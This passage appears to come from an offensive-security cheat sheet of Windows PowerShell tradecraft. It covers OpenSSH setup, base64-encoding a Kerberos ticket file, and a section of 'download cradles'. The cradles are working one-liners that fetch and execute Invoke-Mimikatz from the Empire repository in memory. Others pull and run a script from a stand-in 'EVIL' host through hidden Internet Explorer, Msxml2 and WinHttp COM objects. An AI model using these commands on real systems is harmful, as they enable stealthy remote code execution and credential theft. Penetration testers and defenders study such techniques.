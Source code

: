`Remove-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0` 
`Remove-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0` 

You may have some firewall issues, refer to https://docs.microsoft.com/en-us/windows-server/administration/openssh/openssh_install_firstuse#install-openssh-using-powershell. 

It's also possible via the GUI: 

Open **Settings**, select **Apps** > **Apps & Features**, then select **Optional Features**. Then select **Add a feature**, and you should be able to install OpenSSH Client and Server. 



## Base64 Encode/Decode

#### Encode

`[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\TEMP\admin.kirbi"))`

#### Decode

`[IO.File]::WriteAllBytes("admin.kirbi", [Convert]::FromBase64String("<base64>"))`

## Download Cradles

from @harmj0y:

* #### powershell 3.0+ download and execute (bypass IE firstrun check)

     `IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -UseBasicParsing)`


* #### powershell (any version)

     `powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"`


     `(New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1", "C:\Users\Public\Invoke-Mimikatz.ps1")`


* #### hidden IE com object

     `$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r`


* #### Msxml2.XMLHTTP COM object

     `$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText`


* #### WinHttp COM object

     `[System.Net.WebRequest]::DefaultWebProxy`
     `[System.Net.CredentialCache]::DefaultNetworkCredentials`
     `$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText`
